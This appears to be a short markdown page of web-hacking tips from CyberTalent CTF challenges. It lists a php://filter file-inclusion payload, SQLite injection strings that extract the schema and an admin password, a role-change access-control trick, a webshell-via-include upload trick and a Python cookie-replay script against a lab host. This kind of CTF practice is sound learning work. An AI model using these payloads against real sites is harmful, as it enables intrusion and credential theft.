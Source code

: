 # Title: CyberTalent WriteUP , *Website Hacking CTF Tips*
- 👨‍💻By: Nathan Hailu
- 🗒Description: A CTF tips collected while playing Cyber-Talent web CTF
- 📅Date: Sun 10/25/2022
================= { START } ==============================

A) File Inclusion / path traversal
    - IF the site have file opening method like => ...?home=about
      - TRY: home=`php://filter/convert.base64-encode/resource=index`



B) IDOR


C) SQL-injection
    - If the database is **sqlite**
      - a' || (select sqlite_version()));--
      - a' || (select sql from sqlite_master));--
      - a' || (select password from xde43_users where role="admin"));--

D) XSS


E) Broken Access Control
    - **changing** role of 'user' to 'admin' will give u the flag!

F) Obfuscation
    - Some websites give you JS code for hint and they will **Obfuscate** it so to decode that use
      - This site:  https://lelinhtinh.github.io/de4js/ 
        - ON THIS the obfuscation looks js code but it is human unreadable form.
    - If you see []+[][[+]}]... kind of obfuscate it is **JSFUCK**.

G) File Upload
    - If the Uploaded file path *is known*
      - http://example.com/data/shell.pdf
        - **it wont run the php code, so try**
          - => http://example.com/index.php?data/shell.pdf

H) Headers
    - If the hint have language staff
      - change the accept-language to the hints.

I) PHP code
  - if the php code have $_SESSIONS and $_Cookies
    - you this code
      - `import requests 
        import base64
        from urllib.parse import unquote

        url="http://wcamxwl32pue3e6m5l3n94wbq36ondvjydolaevy-web.cybertalentslabs.com/index.php"

        s=requests.Session()
        r1=s.get(url)
        enc=unquote(s.cookies['secret'])
        dec=base64.b64decode(enc)
        r2=s.post(url,data={'Q':dec})
        print(r2.text)`